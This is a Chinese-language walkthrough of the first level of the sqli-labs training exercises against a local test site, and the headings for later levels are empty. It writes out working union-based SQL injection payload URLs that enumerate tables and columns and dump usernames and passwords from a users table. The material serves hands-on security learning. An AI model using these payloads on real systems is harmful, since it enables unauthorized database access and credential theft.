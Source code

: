 ### 第一关 基于错误的GET单引号字符型注入
存在注入点判断
加上单引号报错
http://localhost/sqlilabs/practice/example1.php?id=1'

加上注释符页面正常
http://localhost/sqlilabs/practice/example1.php?id=1' %23

注释方式
# 号注释
%23 注释
--+ 注释
判断字段数(使用order by)
http://localhost/sqlilabs/practice/example1.php?id=1'  order by 3%23 # 正常
http://localhost/sqlilabs/practice/example1.php?id=1'  order by 4%23 # 页面显示错误

说明字段数为3

执行注入Payload
# 判断显示的信息点，通过id=-1来执行联合查询
http://localhost/sqlilabs/practice/example1.php?id=-1' union select 1,2,3%23


常用查询信息
database() # 在用的数据库名
user()    # 用户信息
version() # 数据库版本信息
@@basedir # 数据库安装路径
@@version_compile_os # 操作系统版本
查看数据库数据
查看表名称
group_concat函数:将查询到的多行结果连接成字符串
`http://localhost/sqlilabs/practice/example1.php?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
`
查看列名
`http://localhost/sqlilabs/practice/example1.php?id=-1' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_schema ='sqlilabs' AND table_name='users' --+`

查看字段
`http://localhost/sqlilabs/practice/example1.php?id=-1' UNION SELECT 1,group_concat(username SEPARATOR '-'),group_concat(password SEPARATOR '-') FROM users --+`

将整个表内容显示出来了

### 第二关 基于错误的GET整型注入


### 第三关 基于错误的GET单引号变形注入


### 第四关 基于错误的GET双引号字符型注入

### 第五关 基于GET单引号双注入(报错注入)


### 第六关 基于GET双引号双注入(报错注入)


### 第七关 基于文件写入注入







